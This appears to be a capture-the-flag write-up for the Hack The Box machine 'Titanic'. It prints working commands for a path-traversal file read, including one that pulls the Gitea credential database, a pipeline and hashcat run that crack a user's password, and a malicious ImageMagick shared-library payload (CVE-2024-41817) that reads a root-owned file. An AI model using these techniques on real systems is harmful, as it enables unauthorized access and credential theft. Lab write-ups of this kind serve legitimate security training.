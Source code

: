# Titanic Write-up

<img src="https://labs.hackthebox.com/storage/avatars/eb5942ec56dd9b6feb06dcf8af8aefc6.png" width="200" height="200">

## Recon

### Nmap

`nmap -sC -sV 10.10.11.55`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
    |_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
    80/tcp open  http    Apache httpd 2.4.52
    |_http-title: Did not follow redirect to http://titanic.htb/
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add host to `/etc/hosts`.

    echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts

## Exploitation

Titanic.htb main page:

![image](https://github.com/user-attachments/assets/71b40b1e-ff64-4f32-856d-54d159f23f17)

Book Your trip button

When we confirm a trip, we download the ticket.

![image](https://github.com/user-attachments/assets/c4724f5d-2e45-43bd-aa4c-952e75998a42)

JSON file

![image](https://github.com/user-attachments/assets/2c105d92-c095-4a81-ae7a-f8fa08526f2e)

Request

![image](https://github.com/user-attachments/assets/c06f2384-b385-4148-a83f-e138ee65b364)

Since the ticket read function is not implemented securely, we can replace the ticket file name with the one we want to read. 

Try to read `/etc/passwd`

![image](https://github.com/user-attachments/assets/734d26d3-21bb-4858-a1fb-457834fd781f)

We can see that there's a developer user.

`/home/developer:/bin/bash`

![image](https://github.com/user-attachments/assets/003d0b52-b483-4573-a66f-85388ff02034)

Let's try to read user flag by `developer`

Get the user flag!

![image](https://github.com/user-attachments/assets/09c488a2-b053-4995-9238-e1645627e117)

### Privilege escalation

Read `/etc/hosts`

![image](https://github.com/user-attachments/assets/2c5d511c-ba55-4c23-88e9-dbe511d1827c)

Or by using Curl

    curl --path-as-is 'http://titanic.htb/download?ticket=/etc/hosts'

![image](https://github.com/user-attachments/assets/1cfb7600-e9eb-4e33-b328-486f4aaf510a)

We can find subdomains for our host.

Add `dev` subdomain to `/etc/hosts` on our machine!

    echo "10.10.11.55 dev.titanic.htb" | sudo tee -a /etc/hosts

dev.titanic.htb page

![image](https://github.com/user-attachments/assets/dcc13324-0065-4100-a93e-bf6aa610ecaf)

![image](https://github.com/user-attachments/assets/1172ba9c-2c0a-4ddf-b862-59a55bff68a2)

![image](https://github.com/user-attachments/assets/16f2df5c-2c1d-4d1d-b43a-b7a5f75fcc00)

![image](https://github.com/user-attachments/assets/ce09544c-a113-4fa2-aeac-8ae117163f06)

    curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini'

![image](https://github.com/user-attachments/assets/5266dcb4-847a-4764-9000-5e95937617a1)

     /download?ticket=/home/developer/gitea/data/gitea/gitea.db

![image](https://github.com/user-attachments/assets/bc683fe5-e5e5-4f29-b383-8b0115d1bf71)

    curl --path-as-is 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' --output database

![image](https://github.com/user-attachments/assets/06bd7efb-ce02-4a1e-875f-2c7263d42e50)

sqlitebrowser

![image](https://github.com/user-attachments/assets/cc4e3c59-08f5-4824-bcef-0229057b30b3)

    sqlite3 database.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes

![image](https://github.com/user-attachments/assets/a9e252e0-c0e2-4c04-80f9-47c651ef21a0)

`administrator`:`sha256`:`50000`:`LRSeX70bIM8x2z48aij8mw==`:`y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=`

`developer`:`sha256`:`50000`:`i/PjRSt4VE+L7pQA1pNtNA==`:`5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=`

Hashcat

`hashcat gitea.hashes /usr/share/wordlists/rockyou.txt --user`
    
    Session..........: hashcat
    Status...........: Running
    Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
    Hash.Target......: gitea.hashes
    Time.Started.....: Sat Feb 22 11:19:03 2025 (21 secs)
    Time.Estimated...: Sun Feb 23 14:01:35 2025 (1 day, 2 hours)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:      298 H/s (2.90ms) @ Accel:256 Loops:32 Thr:1 Vec:8
    Recovered........: 0/2 (0.00%) Digests (total), 0/2 (0.00%) Digests (new), 0/2 (0.00%) Salts
    Progress.........: 6144/28688770 (0.02%)
    Rejected.........: 0/6144 (0.00%)
    Restore.Point....: 3072/14344385 (0.02%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:544-576
    Candidate.Engine.: Device Generator
    Candidates.#1....: adriano -> class08
    Hardware.Mon.#1..: Util: 79%
    
    sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528

SSH

`developer`:`25282528`

    ssh developer@titanic.htb

![image](https://github.com/user-attachments/assets/1c3f49e2-70b4-425a-8ccb-2ae58a39f6f8)

    find / -writable -type d 2>/dev/null

![image](https://github.com/user-attachments/assets/dc09cd23-fdbb-466a-9694-df5aec98e8ea)

![image](https://github.com/user-attachments/assets/fd13e376-4dc5-442b-935d-c17914022cd1)

![image](https://github.com/user-attachments/assets/bb69e97d-3805-4096-9082-583574a2bdfa)

CVE-2024-41817

https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

![image](https://github.com/user-attachments/assets/3a07cc08-a5e8-4e5e-9129-41fabf153378)

/opt/app/static/assets/images/

exploit 

    gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    __attribute__((constructor)) void init(){
        system("cp /root/root.txt root.txt; chmod 754 root.txt");
        exit(0);
    }
    EOF

Get the root flag!

![image](https://github.com/user-attachments/assets/dfb2ea6f-058d-4184-83d8-4aa951fbcc00)
